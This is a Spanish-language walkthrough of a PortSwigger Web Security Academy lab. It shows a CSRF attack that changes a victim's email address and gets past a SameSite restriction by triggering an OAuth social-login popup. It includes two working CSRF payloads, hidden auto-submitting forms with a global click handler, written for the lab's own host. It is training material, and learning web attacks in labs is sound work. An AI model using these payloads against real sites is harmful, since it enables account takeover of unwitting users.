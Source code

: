 `TAREA:` La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Para solucionar este problema, realice un ataque CSRF que cambie la dirección de correo electrónico de la víctima. Debe usar el servidor de exploits proporcionado para alojar el ataque.

El laboratorio admite el inicio de sesión con OAuth. Puede iniciar sesión a través de su cuenta de redes sociales con las siguientes credenciales: `wiener:peter`

`NOTA:` - Los navegadores impiden que se abran las ventanas emergentes a menos que se activen mediante una interacción manual del usuario, como un clic. El usuario víctima hará clic en cualquier página a la que lo redirija, por lo que puede crear ventanas emergentes mediante un controlador de eventos global como se indica a continuación

```python
<script> 
	window.onclick = () => { 
		window.open('about:blank') 
	} 
</script>
```

iniciamos sesión en la web y de inmediato nos damos cuenta que nos esta haciendo una redirección hacia endpoints diferentes tenemos un botón de continuar que probablemente necesite una cookie. en este caso la de sesión
![[Pasted image 20250722103219.png]]

luego tenemos otro botón de continuar que probablemente contenga otra cookie. aquí lo esencial seria analizar ambas solicitudes e identificar si la cookie es diferente
![[Pasted image 20250722103359.png]]

realizamos una solicitud de cambio de correo y la interceptamos para enviarla al repeater 
![[Pasted image 20250722103605.png]]

cuando estamos en el repeater iniciamos un CSRF-POC
![[Pasted image 20250722103807.png]]

en este caso el history.pushState no lo necesitamos ya que esta vulnerabilidad por lógica del laboratorio se modifica para que sea una solicitud mas automatizada donde la victima debe hacer clic. pero en este caso debemos generar una ventana emergente con el código que nos proporcionaron. nos quedaría algo como esto:

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a49006d035448148083fd090057002b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script> 
	window.onclick = () => { 
		window.open('about:blank') 
	} 
</script>
  </body>
</html>
```

`NOTA:` recuerda cambiar el correo ya que no puede ser el mismo correo del ataque al que ya esta registrado en la cuenta.

###### OPCIÓN 2
puedes usar este código que que esta proporcionado por el laboratorio si no cuentas con burpsuite profecional.

```python
`<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> 
	<input type="hidden" name="email" value="pwned@portswigger.net"> 
</form> <p>Click anywhere on the page</p> 
<script> 
	window.onclick = () => { window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); 
	setTimeout(changeEmail, 5000); } function changeEmail() { document.forms[0].submit(); } </script>`
```